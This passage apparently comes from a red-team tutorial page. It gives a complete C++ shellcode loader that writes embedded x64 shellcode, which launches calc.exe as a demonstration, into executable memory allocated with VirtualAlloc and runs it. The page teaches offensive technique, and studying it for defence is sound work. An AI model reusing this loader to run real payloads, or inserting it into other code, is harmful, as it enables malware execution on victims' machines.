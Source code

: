 {% hint style="warning" %}
The output includes some null bytes (string terminator character) that would break the execution, these are omitted by the C++ loader code.
{% endhint %}

and here is the code for the C++ vanilla shellcode loader:

{% code title="vanilla-loader.cpp" %}
```cpp
#include <stdio.h>
#include <string.h>
#include <windows.h>

const unsigned char shellcode[] = {
0xFC,0x48,0x83,0xE4,0xF0,0xE8,0xC0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xD2,0x65,0x48,0x8B,0x52,0x60,0x48,0x8B,0x52,0x18,0x48,0x8B,0x52,0x20,0x48,0x8B,0x72,0x50,0x48,0x0F,0xB7,0x4A,0x4A,0x4D,0x31,0xC9,0x48,0x31,0xC0,0xAC,0x3C,0x61,0x7C,0x02,0x2C,0x20,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0xE2,0xED,0x52,0x41,0x51,0x48,0x8B,0x52,0x20,0x8B,0x42,0x3C,0x48,0x01,0xD0,0x8B,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xC0,0x74,0x67,0x48,0x01,0xD0,0x50,0x8B,0x48,0x18,0x44,0x8B,0x40,0x20,0x49,0x01,0xD0,0xE3,0x56,0x48,0xFF,0xC9,0x41,0x8B,0x34,0x88,0x48,0x01,0xD6,0x4D,0x31,0xC9,0x48,0x31,0xC0,0xAC,0x41,0xC1,0xC9,0x0D,0x41,0x01,0xC1,0x38,0xE0,0x75,0xF1,0x4C,0x03,0x4C,0x24,0x08,0x45,0x39,0xD1,0x75,0xD8,0x58,0x44,0x8B,0x40,0x24,0x49,0x01,0xD0,0x66,0x41,0x8B,0x0C,0x48,0x44,0x8B,0x40,0x1C,0x49,0x01,0xD0,0x41,0x8B,0x04,0x88,0x48,0x01,0xD0,0x41,0x58,0x41,0x58,0x5E,0x59,0x5A,0x41,0x58,0x41,0x59,0x41,0x5A,0x48,0x83,0xEC,0x20,0x41,0x52,0xFF,0xE0,0x58,0x41,0x59,0x5A,0x48,0x8B,0x12,0xE9,0x57,0xFF,0xFF,0xFF,0x5D,0x48,0xBA,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8D,0x8D,0x01,0x01,0x00,0x00,0x41,0xBA,0x31,0x8B,0x6F,0x87,0xFF,0xD5,0xBB,0xF0,0xB5,0xA2,0x56,0x41,0xBA,0xA6,0x95,0xBD,0x9D,0xFF,0xD5,0x48,0x83,0xC4,0x28,0x3C,0x06,0x7C,0x0A,0x80,0xFB,0xE0,0x75,0x05,0xBB,0x47,0x13,0x72,0x6F,0x6A,0x00,0x59,0x41,0x89,0xDA,0xFF,0xD5,0x63,0x61,0x6C,0x63,0x2E,0x65,0x78,0x65,0x00
};

int main() {
    // Allocate memory for shellcode in current process address space
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (exec_mem == NULL) {
        printf("Failed to allocate memory.\n");
        return 1;
    }

    // Copy shellcode to allocated memory
    memcpy(exec_mem, shellcode, sizeof(shellcode));

    // Execute the shellcode
    // declares a function pointer named exec_mem (takes no args and has no return)
    // casts exec_mem to a void function pointer type
    // calls the function that exec_mem points to
    ((void (*)())exec_mem)();

    // Free the allocated memory
    VirtualFree(exec_mem, 0, MEM_RELEASE);

    return 0;
}

```
{% endcode %}
